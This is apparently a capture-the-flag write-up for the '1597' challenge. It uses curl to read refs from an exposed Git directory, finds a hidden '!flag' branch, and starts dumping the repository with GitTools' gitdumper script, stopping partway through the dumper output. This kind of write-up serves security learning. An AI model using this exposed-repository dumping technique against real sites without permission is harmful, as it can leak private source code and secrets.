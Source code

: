 # 1597

## Challenge:

... as in https://xkcd.com/1597/

`http://git.ritsec.club:7000/1597.git/`

## Solution:

The comic linked talks about Git and we’re given a link to a repository. If we navigate to that link, we’re presented with some metadata about the repository:
```bash
[
{ "name":"branches", "type":"directory", "mtime":"Fri, 09 Apr 2021 05:49:00 GMT" },
{ "name":"hooks", "type":"directory", "mtime":"Fri, 09 Apr 2021 05:49:00 GMT" },
{ "name":"info", "type":"directory", "mtime":"Fri, 09 Apr 2021 05:49:00 GMT" },
{ "name":"objects", "type":"directory", "mtime":"Fri, 09 Apr 2021 05:49:00 GMT" },
{ "name":"refs", "type":"directory", "mtime":"Fri, 09 Apr 2021 05:49:00 GMT" },
{ "name":"HEAD", "type":"file", "mtime":"Fri, 09 Apr 2021 05:49:00 GMT", "size":23 },
{ "name":"config", "type":"file", "mtime":"Fri, 09 Apr 2021 05:49:00 GMT", "size":66 },
{ "name":"description", "type":"file", "mtime":"Fri, 09 Apr 2021 05:49:00 GMT", "size":73 }
]
```
We can go a little further and read some additional files:
```bash
$ curl git.ritsec.club:7000/1597.git/HEAD
ref: refs/heads/master
$ curl git.ritsec.club:7000/1597.git/refs/heads/master
dcc402050827e92dbcf2578e24f2cba76f34229c
```
What if we try to list a directory?
```bash
$ curl git.ritsec.club:7000/1597.git/refs/heads/
[
{ "name":"!flag", "type":"file", "mtime":"Fri, 09 Apr 2021 05:49:00 GMT", "size":41 },
{ "name":"master", "type":"file", "mtime":"Fri, 09 Apr 2021 05:49:00 GMT", "size":41 }
]
$ curl git.ritsec.club:7000/1597.git/refs/heads/\!flag
b123f674a07eaf5914eda8845d86b5219fc1de11
```
Interestingly we’ve got two heads, `master` and `!flag`. But before we go too deep, let’s try one of the various tools that will try to download an exposed Git repository for us.
GitTools is popular and the Dumper script lets us customize the directory name – important since this is `1597.git` instead of just `.git`. Let’s give it a try:
```bash
$ ./gitdumper.sh git.ritsec.club:7000/1597.git/ 1597.git --git-dir=1597.git
###########
# GitDumper is part of https://github.com/internetwache/GitTools
#
# Developed and maintained by @gehaxelt from @internetwache
#
# Use at your own risk. Usage might be illegal in certain circumstances.
# Only for educational purposes!
###########


[*] Destination folder does not exist
[+] Creating 1597.git/1597.git/
[+] Downloaded: HEAD
[+] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
```